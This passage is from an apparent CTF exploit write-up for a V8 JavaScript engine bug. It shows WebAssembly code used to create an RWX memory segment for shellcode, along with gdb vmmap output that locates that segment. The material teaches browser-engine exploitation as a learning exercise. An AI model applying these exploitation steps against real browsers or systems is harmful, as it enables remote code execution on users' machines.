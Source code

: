 

### v8 Exploit

With the primitives I need in place, generate the exploit, continuing
along in [Faith's oob-v8
writeup](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) with
the WebAssembly Technique.

#### Create RWX Segment

I'm planning to write some shellcode to memory and then execute it. In
order to do this, I'll need a RWX memory segment, and WebAssembly is a
way to do that. I'll yank the code right from Faith's post:



    // https://wasdk.github.io/WasmFiddle/
    var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    var wasm_mod = new WebAssembly.Module(wasm_code);
    var wasm_instance = new WebAssembly.Instance(wasm_mod);
    var f = wasm_instance.exports.main;



Checking the fiddle page in the comment, I can see that this code is
just the web assembly for:



    int main() { 
      return 42;
    }



#### Find Segment

I'll need a way to find the start of the the segment. I'll start by
re-running the the new wasm lines added to `exploit.js`, and then I'll
drop to `gdb` and run the GEF command `vmmap` to list all the segments:



    gef➤  vmmap
    [ Legend:  Code | Heap | Stack ]
    Start              End                Offset             Perm Path                                 
    0x00000bed00000000 0x00000bed0000c000 0x0000000000000000 rw-
    0x00000bed0000c000 0x00000bed00040000 0x0000000000000000 ---
    0x00000bed00040000 0x00000bed00041000 0x0000000000000000 rw-
    0x00000bed00041000 0x00000bed00042000 0x0000000000000000 ---
    0x00000bed00042000 0x00000bed00052000 0x0000000000000000 r-x
    0x00000bed00052000 0x00000bed0007f000 0x0000000000000000 --- 
    0x00000bed0007f000 0x00000bed00080000 0x0000000000000000 ---
    0x00000bed00080000 0x00000bed00081000 0x0000000000000000 rw-
    0x00000bed00081000 0x00000bed00082000 0x0000000000000000 ---
    0x00000bed00082000 0x00000bed000bf000 0x0000000000000000 r-x
    0x00000bed000bf000 0x00000bed08040000 0x0000000000000000 ---
    0x00000bed08040000 0x00000bed0805d000 0x0000000000000000 r--
    0x00000bed0805d000 0x00000bed08080000 0x0000000000000000 ---
    0x00000bed08080000 0x00000bed0818d000 0x0000000000000000 rw-
    0x00000bed0818d000 0x00000bed081c0000 0x0000000000000000 ---
    0x00000bed081c0000 0x00000bed081c1000 0x0000000000000000 rw-
    0x00000bed081c1000 0x00000bed08200000 0x0000000000000000 ---
    0x00000bed08200000 0x00000bed08280000 0x0000000000000000 rw-
    0x00000bed08280000 0x00000bee00000000 0x0000000000000000 ---
    0x00002c3409915000 0x00002c3409916000 0x0000000000000000 rwx
    0x000055eff7124000 0x000055eff740b000 0x0000000000000000 r-- /home/df/v8/out.gn/x64.release/d8      